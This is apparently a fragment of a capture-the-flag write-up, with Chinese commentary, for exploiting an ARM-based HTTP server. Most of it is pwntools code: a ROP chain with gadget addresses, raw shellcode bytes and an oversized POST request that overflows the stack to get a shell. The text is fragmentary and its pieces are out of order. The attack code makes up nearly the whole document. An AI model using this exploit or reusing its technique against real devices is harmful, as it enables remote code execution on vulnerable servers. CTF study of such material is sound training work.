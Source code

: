 ```


payload = "U" * 1034
payload += "BBBB"
payload += p32(pop_r0)
payload += p32(6)
payload += p32(pop_r1)
payload += p32(0x8acfc)
payload += p32(0x0010A08)
payload += p32(pop_r0)
payload += p32(6)
payload += p32(close_addr)
payload += "K" * (0x500 - 60 - len(payload) - 3)
payload += "\n\x00\x00"

p.send("C" * 59 + "\n\x00" + payload)


pause()

p.send("\n\x00" + cyclic(0x400 - 2))


p.interactive()
```
但是主办方说flag的路径必须通过getshell获得。。。。。


栈溢出然后使用 shellcode 反弹shellcode

shellcode

```

from pwn import *

context.log_level = "debug"

data = "POST /404.html HTTP/1.1 "

"""
 sub  r4, sp, #0xd0
 push  {r4}
 pop   {pc}

"""
data += "\xd0\x40\x4d\xe2\x04\x40\x2d\xe5\x04\xf0\x9d\xe4\x02\x00\xa0\xe3"
data += "\r\n"

# data += "B" * 0x500
data += "A" * 0x44c
data += "B" * (0x500 - 0x44c)


# 006099C                 POP     {R0,PC}
# 00060A84                 POP     {R1,PC}
# 0002BC90                 POP     {R7,PC}
# text:2691C              svc   POP     {R4-R8,PC}
# 0003BD60                 POP     {R3-R11,PC}

pop_r0 = 0x006099C
pop_r1 = 0x60A84
close_addr = 0x2C068
pop_r7 = 0x0002BC90
svc_pop_r4_r8 = 0x0002691C
```